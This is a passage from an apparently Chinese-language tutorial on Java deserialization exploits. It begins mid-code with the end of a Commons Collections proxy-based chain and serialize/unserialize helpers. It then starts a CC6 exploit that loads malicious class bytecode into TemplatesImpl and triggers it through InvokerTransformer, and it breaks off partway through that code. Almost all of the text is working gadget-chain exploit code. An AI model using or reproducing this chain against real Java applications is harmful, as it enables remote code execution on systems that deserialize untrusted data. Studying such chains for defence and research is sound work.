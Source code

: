 ```java=
                , new Class[]{Map.class}, invocationHandler);  
 invocationHandler = (InvocationHandler) declaredConstructor.newInstance(Override.class, proxyMap);  
  
 serialize(invocationHandler);  
 unserialize("ser.bin");  
 }  
  
    public static void serialize(Object obj) throws IOException {  
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));  
 oos.writeObject(obj);  
 }  
  
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {  
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));  
 Object obj = ois.readObject();  
 return obj;  
 }  
}
```
![](https://i.imgur.com/HU5Kj59.png)

## CC6 链的 TemplatesImpl 实现方法
```java=
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.keyvalue.TiedMapEntry;  
import org.apache.commons.collections.map.LazyMap;  
  
import java.io.*;  
import java.lang.reflect.Field;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
import java.util.HashMap;  
import java.util.Map;  
  
// CC6 Yso 的正版链子，用 TemplatesImpl 实现 EXPpublic class CC6TemplatesEXP {  
    public static void main(String[] args) throws Exception{  
        TemplatesImpl templates = new TemplatesImpl();  
 Class templatesClass = templates.getClass();  
 Field nameField = templatesClass.getDeclaredField("_name");  
 nameField.setAccessible(true);  
 nameField.set(templates, "Drunkbaby");  
  
 Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");  
 bytecodesField.setAccessible(true);  
 byte[] evil = Files.readAllBytes(Paths.get("E://Calc.class"));  
 byte[][] codes = {evil};  
 bytecodesField.set(templates, codes);  
  
 Field tfactoryField = templatesClass.getDeclaredField("_tfactory");  
 tfactoryField.setAccessible(true);  
 tfactoryField.set(templates, new TransformerFactoryImpl());  
 //     templates.newTransformer();  
 Transformer[] transformers = new Transformer[]{  
                new ConstantTransformer(templates),  
 new InvokerTransformer("newTransformer", null, null)  
```